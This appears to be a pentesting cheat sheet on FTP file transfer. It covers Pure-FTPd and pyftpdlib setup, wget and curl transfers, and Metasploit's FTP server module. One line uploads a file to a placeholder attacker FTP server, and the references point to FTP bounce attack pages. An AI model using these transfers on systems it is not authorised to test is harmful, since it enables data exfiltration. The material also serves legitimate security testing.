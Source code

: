 # FTP

## 01 - Unix Shell

### 1.1 - Setup

#### 1.1.1 - Pure-FTPd

`$ sudo apt install pure-ftpd`

`$ cat setup-pure-ftpd.sh`

---

```bash
#!/bin/sh
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd <username> -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
systemctl restart pure-ftpd
```

```
$ chmod +x setup-pure-ftpd.sh

$ sudo ./setup-pure-ftpd.sh
```

#### 1.1.2 - PyFTPdlib

`$ sudo apt install python-pyftpdlib`

`$ python3 -m pyftpdlib -p <PORT>`

### 1.2 - Usage

#### 1.2.1 - Download

```
$ ftp <attacker_FTP_server>

ftp> put file.txt

$ wget -m ftp://<username>@<password>@<IP>

$ wget -m --no-passive ftp://<username>@<password>@<IP>

$ curl -u <username>:<password> ftp://<IP>/file.txt
```

#### 1.2.2 - Upload

`$ curl -u <username>:<password> -T /path/to/file.txt ftp://<IP>`

## 02 - Metasploit

```
msf > use auxiliary/server/ftp

msf auxiliary(server/ftp) > options

Module options (auxiliary/server/ftp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FTPPASS                    no        Configure a specific password that should be allowed access
   FTPROOT   /tmp/ftproot     yes       The FTP root directory to serve files from
   FTPUSER                    no        Configure a specific username that should be allowed access
   PASVPORT  0                no        The local PASV data port to listen on (0 is random)
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT   21               yes       The local port to listen on.
   SSL       false            no        Negotiate SSL for incoming connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)


Auxiliary action:

   Name     Description
   ----     -----------
   Service  Serve files via FTP


msf auxiliary(server/ftp) > set ftproot /path/to/host/files

msf auxiliary(server/ftp) > set ftpuser <username>

msf auxiliary(server/ftp) > set ftppass <password>

msf auxiliary(server/ftp) > run
```

---
## References

- [Hacktricks Pentesting FTP Bounce Attack](https://book.hacktricks.xyz/pentesting/pentesting-ftp/ftp-bounce-attack)

- [Hacktricks Pentesting FTP Download 2OFTP File]https://book.hacktricks.xyz/pentesting/pentesting-ftp/ftp-bounce-download-2oftp-file

- [How to Use FTP Under Linux to Transfer Files](https://www.thegeekdiary.com/how-to-use-ftp-under-linux-to-transfer-files/)
